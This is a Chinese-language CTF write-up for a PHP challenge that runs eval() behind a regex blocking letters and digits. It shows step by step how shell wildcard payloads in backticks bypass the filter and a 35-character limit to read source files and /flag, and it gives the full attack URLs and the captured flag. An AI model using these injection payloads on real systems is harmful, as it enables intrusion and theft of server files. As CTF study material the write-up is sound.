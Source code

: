 参考链接：http://skysec.top/2018/09/24/2018%E5%AE%89%E6%81%92%E6%9D%AF-9%E6%9C%88%E6%9C%88%E8%B5%9BWriteup/

------



[TOC]



# 题目地址

101.71.29.5:10001 

# 解题思路

浏览器打开地址，发现页面中只有一段代码

```
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?> 
```

通过分析代码，可以得知。

1、code用来执行php代码，但是做了过滤

2、提示说通过getFlag()函数可以获取flag

我们首先要做的就是想办法绕过过滤，但是过滤已经把所有的字母和数字都过滤，就剩下特殊字符了。

linux下，可以通过通配符来匹配字母，从而实现一些操作。比如

```
/???/???
等同于
/bin/cat
```

参考链接：`https://www.anquanke.com/post/id/154284`

那么我们可以构造如下payload

```
$_=`/???/???%20/???/???/????/?????.???`;?><?=$_?>
等同于
$_=`/bin/cat /var/www/html/index.php`;?><?=$_?>
```

完整的url如下

```
http://101.71.29.5:10001/?code=$_=`/???/???%20/???/???/????/?????.???`;?%3E%3C?=$_?%3E
```

但是提示过长，因为限制在35以下。我们需要继续缩短

```
$_=`/???/???%20/???/???/????/*`;?><?=$_?>
```

查看所有文件内容

然而还是长，继续缩短

```
?><?=`/???/???%20/???/???/????/*`?>
```

这次完整的url如下

```
http://101.71.29.5:10001/?code=?%3E%3C?=`/???/???%20/???/???/????/*`?%3E
```

这次页面输出成功了，内容比较多，我们得慢慢找，点击查看源代码，但是我们的关键字可以确定是找flag相关的源代码，所以直接查找flag

最后我们可以找到源代码

```
<?php
function getFlag(){
	$flag = file_get_contents('/flag');
	echo $flag;
}<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

关键点在于

```
function getFlag(){
	$flag = file_get_contents('/flag');
	echo $flag;
}
```

我们可以知道flag位于/flag下，那么我们直接读flag

```
/???/???%20/????
等同于
/bin/cat /flag
```

构造payload

```
?><?=`/???/???%20/????`;?>
```

完整的url

```
http://101.71.29.5:10001/?code=?%3E%3C?=`/???/???%20/????`;?%3E
```

点击查看源代码，搜索flag

最后找到

```
flag{aa5237a5fc25af3fa07f1d724f7548d7}
```





